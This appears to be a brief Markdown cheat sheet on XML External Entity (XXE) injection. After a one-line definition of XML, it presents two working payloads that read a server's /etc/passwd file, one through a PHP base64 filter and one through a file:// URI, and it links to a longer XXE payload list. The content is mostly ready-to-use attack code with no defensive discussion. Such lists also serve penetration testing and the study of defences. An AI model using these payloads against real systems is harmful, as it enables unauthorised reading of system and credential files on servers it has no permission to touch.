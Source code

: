 # XML

XML is a markup language that defines a set of rules for encoding documents in a format that is both human-readable and machine-readable.

## XXE (XML External Entity)

Read `/etc/passwd` file with PHP

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE data [
<!ENTITY file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd"> ]>
<foo>
    <response>&file;</response>
</foo>
```

Read `/etc/passwd` flat

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE data [
<!ENTITY file SYSTEM "file:///etc/passwd"> ]>
<foo>
    <response>&file;</response>
</foo>
```

## Links

- [XXE Injection](https://github.com/payloadbox/xxe-injection-payload-list)